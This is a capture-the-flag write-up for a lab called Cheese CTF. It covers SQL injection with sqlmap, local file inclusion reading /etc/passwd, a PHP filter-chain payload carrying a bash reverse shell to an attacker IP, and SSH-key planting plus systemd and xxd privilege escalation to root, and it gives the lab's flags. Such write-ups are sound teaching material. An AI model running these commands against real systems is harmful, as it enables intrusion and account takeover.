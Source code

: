# Cheese CTF

## Challenge Information
- **Challenge Name**: Cheese CTF
- **Category**: Web Security & Privilege Escalation
- **Difficulty Level**: Easy

## Analysis

As a traditional pentesing method, I first tried with directory enumeration where I found nothing. Simultaneously, I ran nmap looking for any open ports which gave more than 100+ ports. Hence, there was no clue in both of these tests. So now i decided to move towards sqli, since there was a login page and we had to find the user flag first, it means that we had to login as a user. Anyhow, lets try sqli now.

Moving forward towards the SQLi, I ran the command: 
```
sqlmap -u "http://<IP_ADDRESS>/login.php" --data="username=test&password=test" --batch --dump
```
Command Breakdown:
-> `sqlmap` : The tool being used, which automates the process of detecting and exploiting SQL injection vulnerabilities.
-> `-u "http://<IP_ADDRESS>/login.php"` : Specifies the target URL where the SQL injection will be tested.
-> `--data="username=test&password=test"` : Specifies the POST data being sent to the server. This simulates a login attempt with the username set to test and password set to test.
-> `--batch` : Runs the command in non-interactive mode. It automatically answers any prompts that sqlmap might generate, using the default or safest options. This is useful for automation or unattended testing.
-> `--dump` : Instructs sqlmap to dump the database contents if it successfully exploits the SQL injection vulnerability. This means it will retrieve and display the data stored in the database.

The detailed analysis on running this command is as follows:
SQLMap tested the username parameter and detected that it is vulnerable to time-based blind SQL injection. The backend database management system (DBMS) was identified as MySQL (MariaDB fork). The current database was retrieved (users). SQLMap found one table named users in the users database. Columns in the users table were identified as `id`, `username`, `password`. The single entry in the users table was retrieved as `ID: 1, Username: comte, Password Hash: 5b0c2e1b4fe1410e47f26feff7f4fc4c`. SQLMap recognized the password hash as MD5. It used its default dictionary for a dictionary-based attack but failed to crack the hash.
Moreover, it also gave a 302 redirect to 
```
http://<IP_ADDRESS>/secret-script.php?file=supersecretadminpanel.html
``` 
The link suggests that it is loading a file from a directory without any check which might result in LFI. So lets test it with the url 
```
http://<IP_ADDRESS>/secret-script.php?file=/etc/passwd
```
This showed some content on the webpage. It means that we can exploit it through LFI. In the content that we got from `/etc/passwd`, there is something `comte:x:1000:1000:comte:/home/comte:/bin/bash`, which seggests that this account has a shell (/bin/bash) and may be your entry point to gain local access.

Now our next task is to upload a reverse shell on the server using the LFI. I tried uploading the shell by running a local server on my machine with a local port, but it did not worked. It means that there are some filters that are preventing me to upload any php shell. To bypass this, we have to use a script that generates different filter chains for the different payloads. I downloaded a script from github 
```
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py
```
This generates multiple chains while uploading the shell code. Make sure that you are running your port on netcat `nc -lvnp YOUR_PORT`. Now run the command 
```
python3 php-reverse-shell.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_VPN_IP>/<YOUR_PORT> 0>&1'\"); ?>" | grep "^php" > payload.txt
```
It will generate a lot of useful payloads. Now run the command 
```
curl "http://<IP_ADDRESS>/secret-script.php?file=$(cat payload.txt)"
```
This will give you a reverse shell in the directory `/var/www/html` on the terminal where you are running the netcat.

1. To get the user's flag, we have to search in his directory `/home/comte` that we also discovered previously. We have a `user.txt` in `/home/comte` but it says permission denied if we try to read it using cat command. So we need previlage escaltion now. For this, download `linpeas.sh` using the command
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
Now run a python server 
```
python3 -m http.server 8000 --bind <YOUR_VPN_IP>
```
Now run 
```
wget http://<YOUR_VPN_IP>:8000/linpeas.sh
```
in the target machine, but before running this, move to `cd /tmp` so that we are able to write in the target machine and also make sure that linpeas.sh is in the same directory where you are running the python server so that it gets copied to the target machine. Once the linpeas.sh is downloaded in the target machine, run 
```
chmod +x linpeas.sh
```
to grant permissions to the file. Now execute it `./linpeas.sh`. The execution of this gave a long response, but it is very important for us to analyze its response. Deeply go through the response and you will observe some lines:
```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                     
/dev/mqueue                                                                                                                                                           
/dev/shm
/etc/systemd/system/exploit.timer
/home/comte/.ssh/authorized_keys
/run/lock
/run/lock/apache2
/run/screen
/snap/core20/2015/run/lock
/snap/core20/2015/tmp
/snap/core20/2015/var/tmp
/snap/core20/2182/run/lock
/snap/core20/2182/tmp
/snap/core20/2182/var/tmp
/tmp
/tmp/linpeas.sh
/tmp/tmux-33
/var/cache/apache2/mod_cache_disk
/var/crash
/var/lib/php/sessions
/var/tmp
```
`/home/comte/.ssh/authorized_keys` suggests that there are some authorized ssh keys that allow to login as comte. So we will also add our own ssh key so that we can also login as comte. In your local machine, login as root: `sudo su`, and generate a ssh key: `ssh-keygen -t rsa`. The key will be saved in the path `/root/.ssh/id_rsa.pub`. Copy the key: 
```
cat /root/.ssh/id_rsa.pub
```
using this and write it in the target machine: 
```
echo "key" > /home/comte/.ssh/authorized_keys
```
Now we will be loggin in as comte in our own local machine: 
```
ssh -i /root/.ssh/id_rsa comte@<IP_ADDRESS>
```
Now `cat /home/comte/user.txt` will give us the flag `THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`.

2. The root.txt file is present in the path `/root/root.txt`, but we do not have permission to read it. Remember the file for which we had write permissions (mentioned above) `/etc/systemd/system/exploit.timer`. We can use it to run an exploit service. Move to the directory
```
cd /etc/systemd/system/
```
where we logged in as comte. Check the file contents `cat /etc/systemd/system/exploit.timer` and it will give some contents like this:
```
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```
Modify the line `OnBootSec=5s` using the command: `nano exploit.timer`. Now run the following commands in the local terminal where we logged in as comte:
```
sudo systemctl daemon-reload
sudo systemctl start exploit.timer
systemctl status exploit.timer
```
This will run and also confirm whether the run was successful or not. We will be again using the same ssh key to get the previlage of the root as well. Look for any method to gain sudo privileges in `https://gtfobins.github.io/`. Here we came to know that we can use `xxd` for the exploitation. Navigate to the directory `/opt` because the exploit scenario assumes we have write permissions there. Run the command 
```
echo "key" | xxd | /opt/xxd -r - "/root/.ssh/authorized_keys"
```
Now open another terminal in your local machine with `sudo su` and run the command 
```
ssh -i /root/.ssh/id_rsa root@<IP_ADDRESS>
```
This will login you as a root into Cheeze! Now just `cat /root/root.txt` and it will give the flag `THM{dca75486094810807faf4b7b0a929b11e5e0167c}`.
